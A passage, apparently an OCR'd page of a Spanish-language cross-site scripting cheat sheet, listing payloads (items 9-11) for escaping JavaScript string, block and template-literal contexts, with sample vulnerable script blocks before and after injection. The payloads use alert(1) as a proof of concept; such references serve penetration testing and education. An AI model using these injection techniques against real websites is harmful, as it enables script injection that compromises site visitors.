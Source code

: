 9 - Úselo cuando haya múltiples reflejos en la misma línea de código JS 

    /alert(1)//\
    /alert(1)}//\
    
- Ejemplo de código fuente 

```html
<script>
    var a = 'REFLECTED_HERE'; var b = 'REFLECTED_HERE';
</script>  
```

- Después de ingresar la carga útil 

```html
<script>
    var a = '/alert(1)//\'; var b = '/alert(1)//\';
</script>
```

10 - Se usa cuando se ingresa dentro de un valor delimitado por una cadena y dentro de un solo bloque lógico como función o condicional (if, else, etc.)

    '}alert(1);{'
    \'}alert(1);{// 
    
- Ejemplo de código fuente 

```html
<script>
    var greeting;
    var time = 1;
    if (time < 10) {
    test = 'REFLECTED_HERE';
  }
</script>   
```

- Después de ingresar la carga útil 

```html
<script>
    var test;
    var time = 1;
    if (time < 10) {
    test = ''}alert(1);{'';
  }
</script>
```

La carga útil número 2 se usa cuando la cotización escapa por barra invertida

11 - Usar cuando la entrada cae dentro de cadenas delimitadas por acentos graves

    ${alert(1)}
    
- Ejemplo de código fuente 

```html
<script>
    var dapos = `REFLECTED_HERE`;
</script>
```
